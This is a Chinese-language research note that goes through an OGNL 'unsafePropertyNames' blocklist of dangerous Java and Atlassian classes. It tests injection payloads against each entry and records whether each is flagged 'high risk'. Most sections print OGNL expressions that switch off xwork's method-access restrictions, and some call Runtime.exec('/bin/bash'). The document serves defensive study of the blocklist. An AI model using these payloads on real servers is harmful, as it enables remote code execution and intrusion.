<!-- Created by Frank -->
- [unsafePropertyNames](#unsafepropertynames)
    - [0 = "sun.misc.Unsafe"](#0--sunmiscunsafe)
    - [1 = "classLoader"](#1--classloader)
    - [2 = "java.lang.System"](#2--javalangsystem)
    - [3 = "java.lang.ThreadGroup"](#3--javalangthreadgroup)
    - [4 = "com.opensymphony.xwork.ActionContext"](#4--comopensymphonyxworkactioncontext)
    - [5 = "java.lang.Compiler"](#5--javalangcompiler)
    - [6 = "com.atlassian.applinks.api.ApplicationLinkRequestFactory"](#6--comatlassianapplinksapiapplicationlinkrequestfactory)
    - [7 = "java.lang.Thread"](#7--javalangthread)
    - [8 = "com.atlassian.core.util.ClassLoaderUtils"](#8--comatlassiancoreutilclassloaderutils)
    - [9 = "java.lang.ProcessBuilder"](#9--javalangprocessbuilder)
    - [10 = "java.lang.InheritableThreadLocal"](#10--javalanginheritablethreadlocal)
    - [11 = "com.atlassian.core.util.ClassHelper"](#11--comatlassiancoreutilclasshelper)
    - [12 = "class"](#12--class)
    - [13 = "java.lang.Shutdown"](#13--javalangshutdown)
    - [14 = "java.lang.ThreadLocal"](#14--javalangthreadlocal)
    - [15 = "java.lang.Process"](#15--javalangprocess)
    - [16 = "java.lang.Package"](#16--javalangpackage)
    - [17 = "org.apache.tomcat.InstanceManager"](#17--orgapachetomcatinstancemanager)
    - [18 = "java.lang.Runtime"](#18--javalangruntime)
    - [19 = "javax.script.ScriptEngineManager"](#19--javaxscriptscriptenginemanager)
    - [20 = "javax.persistence.EntityManager"](#20--javaxpersistenceentitymanager)
    - [21 = "org.springframework.context.ApplicationContext"](#21--orgspringframeworkcontextapplicationcontext)
    - [22 = "java.lang.SecurityManager"](#22--javalangsecuritymanager)
    - [23 = "java.lang.Object"](#23--javalangobject)
    - [24 = "java.lang.Class"](#24--javalangclass)
    - [25 = "java.lang.RuntimePermission"](#25--javalangruntimepermission)
    - [26 = "javax.servlet.ServletContext"](#26--javaxservletservletcontext)
    - [27 = "java.lang.ClassLoader"](#27--javalangclassloader)


# unsafePropertyNames

### 0 = "sun.misc.Unsafe"
* 有一种方式可以有意的执行一些不安全、容易犯错的操作，就是使用 `Unsafe` 类
* jdk11 中这个包被移至 `jdk.internal.misc` package 下
* [参考 Unsafe](https://www.jianshu.com/p/e4ec4fe9b5a5)
* src-code 里构造器私有，不能直接实例化  
  [Jump to sun.misc.Unsafe](./assets/Unsafe.java)
* payload
  ```js
  // high risk
  // 但不能这么用，会抛异常
  %{#_memberAccess.allowStaticMethodAccess=true,
  #context["xwork.MethodAccessor.denyMethodExecution"]=false,
  @sun.misc.Unsafe@getUnsafe()}

  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #f=@sun.misc.Unsafe@class.getDeclaredField("theUnsafe"),
    #f.setAccessible(true),
    #unsafe=#f.get(null)}
  ```
  出现异常
  
  第 2 句也运行不起来，但是没有抛异常，是 `Unsafe` 类的问题
  


### 1 = "classLoader"
* src-code 里，应该是 `Java.lang.Class` 类中的一个成员变量
* Private 构造函数。只有 Java Virtual Machine 创建 Class objects
* 实际上还是 `.getClassLoader()` 使用了这个变量，然后 return classLoader  
  [Jump to java.lang.Class](./assets/Class.java)

    
    
  

* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.Class().getClassLoader()}
  ```   
  


### 2 = "java.lang.System"
* payload
  ```js
  // 在 high risk 和 normal 反复跳
  %{@java.lang.System}

  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.System()}
  ```
  


### 3 = "java.lang.ThreadGroup"
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.ThreadGroup()}
  ```
  


### 4 = "com.opensymphony.xwork.ActionContext"
* strut2 框架的包


### 5 = "java.lang.Compiler"
* src-code 里啥也没有。以下是源码注释  
  [Jump to java.lang.Compiler](assets/Compiler.java)
  ```java
  // don't make instances
  /**
  * The {@code Compiler} class is provided to support Java-to-native-code
  * compilers and related services. By design, the {@code Compiler} class does
  * nothing; it serves as a placeholder for a JIT compiler implementation.
  * If no compiler is available, these methods do nothing.
  *
  * @deprecated JIT compilers and their technologies vary too widely to
  * be controlled effectively by a standardized interface. As such, many
  * JIT compiler implementations ignore this interface, and are instead
  * controllable by implementation-specific mechanisms such as command-line
  * options. This class is subject to removal in a future version of Java SE.
  *
  * @author  Frank Yellin
  * @since   1.0
  */
  ```
* payload
  ```js
  // normal
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    @java.lang.Compiler}
  
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    @java.lang.Compiler@command()}
  
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    @java.lang.Compiler@compileClass()}
  
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    @java.lang.Compiler@disable()}

  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    @java.lang.Compiler@compileClasses()}

  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    @java.lang.Compiler@enable()}
  ```


### 6 = "com.atlassian.applinks.api.ApplicationLinkRequestFactory"


### 7 = "java.lang.Thread"
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
  #context["xwork.MethodAccessor.denyMethodExecution"]=false,
  #a=new java.lang.Thread()}
  ```
  


### 8 = "com.atlassian.core.util.ClassLoaderUtils"
* [atlassian doc](https://docs.atlassian.com/DAC/javadoc/atlassian-core/4.6.0/reference/com/atlassian/core/util/ClassLoaderUtils.html)


### 9 = "java.lang.ProcessBuilder"
* payload
  ```js
  // high risk
  %{#a=new java.lang.ProcessBuilder()}
  ```
  


### 10 = "java.lang.InheritableThreadLocal"
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.InheritableThreadLocal()}
  ```
  


### 11 = "com.atlassian.core.util.ClassHelper"
* [atlassian doc](https://docs.atlassian.com/DAC/javadoc/atlassian-core/4.6.0/reference/com/atlassian/core/util/ClassHelper.html)


### 12 = "class"
* [转自 CSDN](https://blog.csdn.net/m0_60311922/article/details/122927931)
* 这个是反射，`String.class` 可以返回一个代表String类的类对象 (官方叫 `类类型`，`Class Type`. 类其实也是一个对象)
* 一个类的类对象只能有一个
* `String.class` == `String str = new String("test"); str.getClass()`
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.String("test"),#a.getClass()}
  ```
  


### <font color="red">13 = "java.lang.Shutdown"</font>
* src-code
  [Jump to java.lang.Shutdown](./assets/Shutdown.java)
* 这个是个静态内部类，没有 public 修饰，应该是不能实例化?
* payload
  ```js
  // high risk
  // 但感觉不对，不能这么用。官网文档上也没找到 java.lang.Shutdown
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.Shutdown()}
  ```
  


### 14 = "java.lang.ThreadLocal"
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.ThreadLocal()}
  ```
  


### 15 = "java.lang.Process"
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.Process()}
  ```
  


### 16 = "java.lang.Package"
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.Package()}
  ```
  


### 17 = "org.apache.tomcat.InstanceManager"


### 18 = "java.lang.Runtime"
* payload
  ```js
  // high risk
  %{@java.lang.Runtime@getRuntime()}
  // 跟 exec() 内的 command 有关
  // 可能需要 特定进程 和 工作目录 才行
  %{#a=new java.lang.Runtime().exec("/bin/bash")}
  %{#a=new java.lang.Runtime().exec(new java.io.File("/"))}

  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.Runtime()}
  
  ```
    
  
  
  


### 19 = "javax.script.ScriptEngineManager"


### 20 = "javax.persistence.EntityManager"


### 21 = "org.springframework.context.ApplicationContext"


### 22 = "java.lang.SecurityManager"
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.SecurityManager()}
  ```
  


### 23 = "java.lang.Object"
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.Object()}
  ```
  


### 24 = "java.lang.Class"
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.Class()}
  ```
  


### 25 = "java.lang.RuntimePermission"
* src-code 中有 `final` 修饰，不能被继承
  [Jump to java.lang.RuntimePermission](./assets/RuntimePermission.java)
* payload
  ```js
  // high risk
  %{@java.lang.RuntimePermission}
  ```


### 26 = "javax.servlet.ServletContext"


### 27 = "java.lang.ClassLoader"
* src-code 中有 `abstract` 修饰，抽象类不能实例化。其后所有的类加载器都继承自 ClassLoader
  [Jump to java.lang.ClassLoader](./assets/ClassLoader.java)
* 获取ClassLoader的途径  
  
* payload
  ```js
  // high risk
  %{@java.lang.ClassLoader@getSystemClassLoader()}
  // 在这个基础上执行 ClassLoader 类方法都是 high risk
